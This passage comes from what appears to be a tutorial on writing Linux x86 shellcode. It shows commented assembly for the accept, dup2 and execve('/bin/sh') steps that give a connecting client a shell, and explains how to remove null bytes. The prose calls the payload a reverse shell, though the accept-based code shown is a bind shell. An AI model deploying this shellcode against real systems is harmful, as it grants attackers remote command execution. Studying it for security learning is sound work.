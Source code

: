 ### accept
When a client connects to this port we call the accept system call which will give us a new sockfd for the client.  In this case we only care about the identifier but you can also collect more information and save it into a sockaddr struct but this would be useless for us so I set this to NULL.
```nasm
mov al,0x66         ; socketcall
inc bl              ; sys_accept
push edx            ; clientfd (NULL - dont need this)
push edx            ; sizeof(clientfd) (NULL - dont need this)
push edi            ; sockfd
mov ecx,esp         ; save pointer to stack to ecx
int 0x80
```

### dup2
The dup2 function will duplicate the STDOUT/STDIN/STDERR file descriptors onto the sockfd.  This will allow all output to be seen on the sockfd from the connect so the receiver of the reverse shell can see all output.
```nasm
xor ecx,ecx         ; zero out ecx
mov ebx,eax         ; save clientfd
mov al, 0x3f        ; dup2
dup2_loop:
int 0x80            
mov al,0x3f         ; dup2
inc ecx             ; increment ecx until we hit 2
cmp ecx, 2          ; test if we're at 2
jle dup2_loop       ; if not, keep calling dup2
```

### execve
Finally, we actually exec /bin/sh to complete the reverse shell.  At this point the target of the reverse shell should be able to enter commands and see responses.
```nasm
mov al,0xb          ; execve
xor edx,edx         ; zero out edx
push edx            ; push edx to stack to terminate string
push 0x68732f6e     ; n/sh
push 0x69622f2f     ; //bi
mov ebx, esp        ; save pointer to stack to ecx
mov ecx, edx        ; argv[]
;mov edx, edx       ; envp[]
int 0x80
```

### Dealing with null bytes
Most of these are simple to remove as they are due to referencing the full 32bit register where we can simply reference the 8 bit register.

For moving values into registers:<br/>
```mov    eax,0x66``` should be converted to ```mov   al,0x66```<br/>
```mov    ebx,0x1``` should be converted to ```mov    bl,0x1```

For the pushing of 0x0 we need to use a different approach.  We can either find a null byte already on the stack or we can use a zero'ed out register and push that to the stack (often requiring us to explicitly zero it out first).

Example:<br/>
```push   0x0```<br/>
can change into:<br/>
```xor edx,edx         ; zero out edx```<br/>
```push edx            ; push edx to stack to terminate string```

You can use objdump to quicly identify null bytes in the assembly.  I have marked where I initially had to deal with null bytes.
```